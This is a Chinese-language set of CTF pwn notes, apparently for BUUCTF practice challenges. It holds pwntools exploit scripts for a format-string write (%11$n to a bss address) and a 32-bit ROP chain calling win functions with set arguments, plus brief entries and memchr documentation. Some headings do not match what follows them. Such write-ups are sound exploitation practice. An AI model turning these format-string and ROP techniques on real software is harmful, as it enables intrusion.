

# pwn2_sctf_2016
靶场问题，本地能解远程不能解。
#
fmt
主函数给了 printf 漏洞，需要偏移 11 个参数，然后修改 bss 段中 x 的值。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',27176) | |
#p=process('./fm') | |
#gdb.attach(p, 'b printf') | |
target = 0x0804A02C | |
payload = p32(target)+b'%11$n' | |
p.send(payload) | |
p.interactive() |
# jarvisoj_level3
ret2libc3
# picoctf_2018_rop chain
rop chain
有后门函数，但要求 win1 和 win2 的值不为 0，且函数传参 a1 为指定值。

有两个自定义函数可以修改 win1 和 win2 的值，其中 win_function2 中要求传参指定值且 win1 已经修改。

构造 payload，先调用 win1，然后调用 win2，win2 返回地址为 flag 函数，后接参数。其次再接 flag 函数的参数。

传参值均从汇编中获取。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',28095) | |
#p=process('./PicoCTF_2018_rop_chain') | |
#gdb.attach(p, 'b ') | |
target = 0x0 | |
win1 = 0x080485CB | |
a1 = 0x0BAAAAAAD | |
win2 = 0x080485D8 | |
a2 = 0x0DEADBAAD | |
flag = 0x0804862B | |
offset = 0x18+4 | |
payload = b'a'*offset + p32(win1) + p32(win2) + p32(flag) + p32(a1) + p32(a2) | |
p.sendline(payload) | |
p.interactive() |
# ez_pz_hackover_2016
# memchr
C 库函数 void *memchr(const void *str, int c, size_t n) 在参数 str 所指向的字符串的前 n 个字节中搜索第一次出现字符 c（一个无符号字符）的位置。
# 参数
- str – 指向要执行搜索的内存块。
- c – 以 int 形式传递的值，但是函数在每次字节搜索时是使用该值的无符号字符形式。
- n – 要被分析的字节数。
# 返回值
该函数返回一个指向匹配字节的指针，如果在给定的内存区域未出现字符，则返回 NULL。